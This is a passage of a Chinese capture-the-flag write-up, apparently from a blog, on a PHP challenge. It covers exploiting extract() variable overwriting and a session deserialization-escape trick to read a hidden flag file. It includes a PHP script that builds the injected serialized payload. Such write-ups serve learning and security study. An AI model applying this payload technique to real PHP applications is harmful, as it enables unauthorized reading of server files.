 题目中还有一个这个函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020050818424835.png)

> extract函数：将变量从数组中导入当前的符号表

这里就是把post数组里的取出来变成php变量，就比如我们post传a=123,那它经过这个函数就变成了$a=123。而且它默认在变量名冲突的时候进行覆盖，这就导致了变量覆盖漏洞。

当我们传入SESSION[flag]=123时，$SESSION["user"]和$SESSION['function'] 全部会消失。只剩下*SESSION[flag]=123*

最后，我们根据提示进入phpinfo界面

```php
else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
```

这里我们可以看到flag的文件名，我们要构造后读取该文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200130205207346.png)



我们回到源码最后还有一个file_get_contents函数，我们最后读取的就是这个文件了

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200508190414732.png)

待会$function我们可以通过 $f 直接赋值，接着就要

```
base64_decode($userinfo[‘img’])=d0g3_f1ag.php
			   ||
			   \/
$userinfo[‘img’]=ZDBnM19mMWFnLnBocA==
```

而$userinfo又是通过$serialize_info反序列化来的，$serialize_info又是通过session序列化之后再过滤得来的

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200508191053464.png)

$_session里面的img在这里赋值，我们指定的话会被sha1哈希，到时候就不能被base64解密了。这里就到了一个难点了。所以这里我们就要用到刚刚的extract函数了，待会我们再说。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200508200311609.png)



#### 分析

1. 我们有一个发现的反序列化，我们可以构造序列化传参上去
2. 有一些文件名被ban掉了，我们需要绕过，应该可以利用extract函数



#### 解题

构造我们的反序列化

```php
<?php
$_SESSION["user"]='flagflagflagflagflagflag';	// 变量覆盖漏洞，所以它可以直接这样被赋值进去
$_SESSION["function"]='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}';
$_SESSION["img"]='L2QwZzNfZmxsbGxsbGFn';
echo serialize($_SESSION);
?>
//a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```
